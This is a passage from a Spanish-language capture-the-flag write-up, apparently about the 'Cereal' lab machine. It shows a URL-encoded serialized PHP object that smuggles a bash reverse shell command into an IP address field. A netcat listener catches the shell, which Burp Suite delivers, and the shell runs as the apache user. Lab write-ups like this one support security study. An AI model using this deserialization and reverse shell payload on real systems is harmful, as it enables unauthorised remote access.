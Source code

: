 Y funciona

```
❯ sudo php pwned.php 2>/dev/null; echo
O%3A8%3A%22pingTest%22%3A3%3A%7Bs%3A9%3A%22ipAddress%22%3Bs%3A55%3A%22%3B+bash+-c+%27bash+-i+%3E%26+%2Fdev%2Ftcp%2F192.168.100.15%2F443+0%3E%261%27%22%3Bs%3A7%3A%22isValid%22%3Bb%3A1%3Bs%3A6%3A%22output%22%3Bs%3A0%3A%22%22%3B%7D
```

Nos vamos a poner en escucha en el puerto `443`

```
❯ nc -nlvp 443
listening on [any] 443 ...
```

Y en burpsuite con la peticion que ya habimos hecho vamos a cambiar el dato por el de nosotros serializado y vamos a darle al enter para obtener una reverse shell 

![](/assets/images/vh-writeup-cereal/reverseshellburp.png)

## Shell apache

```shell
❯ sudo nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.100.15] from (UNKNOWN) [192.168.100.28] 39394
bash: cannot set terminal process group (942): Inappropriate ioctl for device
bash: no job control in this shell
bash-4.4$ whoami
whoami
apache
bash-4.4$ 
```

